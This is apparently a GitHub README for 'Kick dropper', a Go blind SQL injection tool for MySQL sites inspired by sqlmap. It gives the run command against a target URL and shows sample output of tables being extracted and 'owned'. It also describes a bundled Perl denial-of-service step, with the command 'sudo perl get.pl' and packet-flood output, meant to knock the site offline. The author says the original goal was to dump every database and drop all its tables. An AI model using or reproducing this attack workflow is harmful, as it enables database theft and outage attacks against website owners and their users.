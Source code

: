 ```
 __  __ __        __           _____        ______                         
|  |/  |__|.----.|  |--.______|     \.----.|      |.-----.-----.-----.----.
|     <|  ||  __||    <|______|  --  |   _||  --  ||  _  |  _  |  -__|   _|
|__|\__|__||____||__|__|      |_____/|__|  |______||   __|   __|_____|__|  
                                                   |__|  |__|              
                         ___
                        __H__
                         [']
                         [)]
                         ["]
                          V...Data....Inspired by SQLMAP
Powered by GoLang
-----------------------------------------------------------------------------

[22:4:42]  [INFO] CONNECTED: HTTP Status > [ 200 ]
+-----------+--------------+
|    Number |    Paramater |
+===========+==============+
|         1 |        catId |
+-----------+--------------+

[22:4:42]  [INFO] Found PARAMATERS to target, please enter the following number which you want to use ( EX: 1)
1

```

Kick dropper is a very simple and leightweight demonstration of SQL querying, and injection by parsing URl's, inspired by SQLmap with data output but not as fast, you might be asking why kick dropper, well the original plan was to download all of the database information, then drop every single table in every database it had and then thus terminating the website, however i could not find a way to properly do this and extracting the info just was not working, so i added something extra at the end 

# how it works 
```
this is a very very simple blind SQL Injection script for MySQL servers ONLY

as the pre set query commanda are well exactly MySQL servers or will only execute for those servers 

this script connects and parses the DB, injects the URL and parses through a list or array of characters 

to match up to the name of the database or table ex

+----------------+
|           Name |
+================+
|    TBL_whatever |
+----------------+

```

# general usage and syntax 
```
go run main.go --url "<url>" | ex go run main.go --url "http://testphp.vulnweb.com/index.php?id=1"
```

# first output and input prompt 

```

[22:4:42]  [INFO] CONNECTED: HTTP Status > [ 200 ]
+-----------+--------------+
|    Number |    Paramater |
+===========+==============+
|         1 |        catId |
+-----------+--------------+

[22:4:42]  [INFO] Found PARAMATERS to target, please enter the following number which you want to use ( EX: 1)

```

when you are prompted to this then you will need to input the number in which the paramater is on ex 1

# output of tables 

i know the output is very very slow but depending on the URL it can out preform certian tools, when i was testing this tool on my own server it seems as if sqlmap wouldnt make a proper connection, however this still did, that was until i used verbose lv6 , random agent, tor, tor-type, u, dbms MySQL etc to speed up the process and actually get it to make requests and retrieve all the data

```
example output 


[22:4:42]  [DATA] TO OWN/RETRIEVE      =>  TBL_whatever
[22:4:42]  [DOWNLOAD 6] TABLE OWNED  =>  TBL_whatever
+----------------+
|           Name |
+================+
|    TBL_whatever |
+----------------+

[22:4:42]  [DATA] TO OWN/RETRIEVE      => TBLname
[22:4:42]  [DOWNLOAD 7] TABLE OWNED  => TBLname
+----------------+
|           Name |
+================+
|    TBLname     |
+----------------+

[22:4:42]  [DATA] TO OWN/RETRIEVE      => TBLadmin
[22:4:42]  [DOWNLOAD 8] TABLE OWNED  => TBLadmin
+-----------------+
|            Name |
+=================+
|    TBLadmin     |
+-----------------+

[22:4:42]  [DATA] TO OWN/RETRIEVE      => TBLname
[22:4:42]  [DOWNLOAD 9] TABLE OWNED  => TBLwhatever
+--------------+
|         Name |
+==============+
|    TB4       |
+--------------+

[22:4:42]  [DATA] TO OWN/RETRIEVE      => TBL4
[22:4:42]  [DOWNLOAD 10] TABLE OWNED  => TBL1
+-------------+
|        Name |
+=============+
|    TBL1     |
+-------------+
```

# main and finale function aka Kick the ass of the server 

powered with perl this is a simple DOS to knock or DROP kick the server offline for a bit, this is optional, after all is done when it comes to SQL injecting you will get something like the following output

```

[22:4:42]  [DATA] TO OWN/RETRIEVE      => finished gathering at =>  2022-01-09 22:25:29.959780903 -0500 EST m=+1247.694968902
[22:4:42]  [WARNING] [ WARNING ATTACK INITATION ] DROPPING SERVER IN 10 SECONDS
domain name .com 
[22:4:42]  [WARNING] [ WARNING ATTACK INITATION ] DROPPING SERVER.............
domain IP => domain ip address


 please now enter this command in your terminal 
+--------------------------------------------+
|                COMMAND TO KICK DROP SERVER |
+============================================+
|    sudo perl get.pl 1.1.1.1 domainip       |
+--------------------------------------------+

```

this command you will then run as the ip address you were given the following output will occur  < Example > 

```
[ DATA ] SENT => 78529 packets to => 127.0.0.1
[ DATA ] SENT => 78530 packets to => 127.0.0.1
[ DATA ] SENT => 78531 packets to => 127.0.0.1
[ DATA ] SENT => 78532 packets to => 127.0.0.1
[ DATA ] SENT => 78533 packets to => 127.0.0.1
[ DATA ] SENT => 78534 packets to => 127.0.0.1
[ DATA ] SENT => 78535 packets to => 127.0.0.1
[ DATA ] SENT => 78536 packets to => 127.0.0.1
[ DATA ] SENT => 78537 packets to => 127.0.0.1
[ DATA ] SENT => 78538 packets to => 127.0.0.1
[ DATA ] SENT => 78539 packets to => 127.0.0.1
[ DATA ] SENT => 78540 packets to => 127.0.0.1
```

in a few good seconds you should have sent anywhere between 95,000 to 400,000 packets to the server probobly crashing it for a second, its a in built feature you just gotta say `why not`

# servers supported 

```
MySQL Newest and oldest tested on both
```

# installs

```
git clone https://github.com/ArkAngeL43/Kick-Dr00per.git ; cd Kick-Dr00per ; chmod +x ./install.sh ; ./install.sh 
```




